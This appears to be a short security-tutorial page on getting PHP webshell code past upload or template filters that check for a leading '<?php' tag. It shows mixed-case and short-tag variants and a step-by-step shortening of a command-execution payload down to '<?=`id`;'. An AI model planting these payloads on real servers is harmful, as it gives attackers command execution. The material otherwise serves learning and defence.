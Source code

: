 # Simple bypass PHP

The common way of writing PHP is start with `<?` and ends with `?>`

Example:

```
<?php phpinfo();?>
```

When attempting to upload file or modify templates, often it will check if the content starts with \`\<?php\` tags

So what are the ways to bypass it?

## Method 1

Use upper and lower case

```
<?pHp system('id');?>
```

## Method 2

Replace the php starting tag with `=`

E.g.

```
<?= system('id');?>
```

## PHP Reduction Challenge: Use 8 characters to run the `id` command

Origin Command

```
<?php system('id');?>  // 21 character
```

### First reduction: PHP tags allow for being unclosed.

PHP has a feature where PHP tags are allowed to be unclosed. This means that you can use `<?php` without using `?>`, and it won't affect the execution of the PHP code.

Utilizing this feature, we can reduce the previous code as follows.

```
<?php system('id'); // 19 character
```

### Second reduction: PHP short tags.

In addition to the standard way of writing PHP tags, there are two other forms, also known as short tags.

```
<?= ?>
```

Utilizing this feature, we can reduce the previous code as follows.

```
<?= system('id'); // 17 character
```

### Third reduction: Changing the method of executing the command.

Since our goal is to successfully execute the command, is there a method that can shorten the code for executing the command? For example, is there a function that is shorter than `system`?

PHP, being a large language, of course, has functions shorter than `system` that can also execute commands.

```
eval()
popen()
exec()
....
```

These are still not short enough. The shortest of all is the backticks `` ` ` ``. PHP can execute commands using backticks.

```
system('id')  =>  `id`
```

Utilizing this feature, we can reduce the previous code as follows.

```
<?=`id`;
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Interview Question

It is interesting to see how the backticks can excute shell commands, does backticks bind to `system` function or `shell_exec` function?

Will disable this 2 functions preventing backtick from executing? If not how do you prevent it?



## Author&#x20;

[Ikonw](https://github.com/Ik0nw/)
